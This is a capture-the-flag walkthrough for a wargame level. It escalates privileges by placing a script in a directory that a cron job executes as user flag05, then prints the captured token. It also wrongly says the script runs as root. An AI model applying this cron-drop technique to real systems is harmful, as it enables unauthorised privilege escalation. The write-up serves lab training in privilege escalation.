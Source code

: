 # LEVEL 05
We log in directly as level05 and we see that we have receive a mail:
```
>$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
User flag05 seems to inform us that he set up a cron job to run every 2 minutes.
Lets have a look at the script permissions:
```
>$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
````
We see this script is run with user **flag05 permissions**. Unfortunately we **don't have** permission to **edit** this file (and have it call getflag).
So lets investigate what this script does:
```
>$ cat /usr/sbin/openarenaserver
#!/bin/sh
	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i") 
		rm -f "$i"
	done
```


**ulimit -t 5**	 	:: `limit the maximum amount of cpu time in 5 seconds`
**bash -x "$i"**	:: `print the file to stdout before executing it`
**rm -f "\$i"**		:: `remove the file`

We can see that it will loop through all the files in `/opt/openarenaserver` and run them in a bash shell before deleting them.  
We need to create a **bash script** in that directory, to have it run as **root**.

Since the operaneserver script does not return or print the output of the command, we will have to make sure the output is redirected to a file in `/tmp`:
```
>$ echo "getflag > /tmp/token" > /tmp/getflag.sh
>$ mv /tmp/getflag.sh /opt/openarenaserver/getflag.sh
```
Wait some time and:
```
>$ cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

#### Vulnerability:
Cron job running untrusted source scripts as privileged user -> Privilege escalation via cron

#### Documentations:
* https://www.digitalocean.com/community/questions/how-to-manage-var-mail-root-file
* https://www.hostinger.fr/tutoriels/cron-job/
* https://superuser.com/questions/306163/what-is-the-you-have-new-mail-message-in-linux-unix
* https://www.liquidweb.com/kb/how-to-display-list-all-jobs-in-cron-crontab/
* https://www.freeformatter.com/cron-expression-generator-quartz.html
* http://manpagesfr.free.fr/man/man1/bash.1.html
* https://ss64.com/bash/ulimit.html
* https://www.cyberciti.biz/faq/linux-show-what-cron-jobs-are-setup/
* https://unix.stackexchange.com/questions/119598/as-root-how-can-i-list-the-crontabs-for-all-users
* https://crontab.guru/every-2-minutes
* http://www.linux-france.org/article/man-fr/man1/su-1.html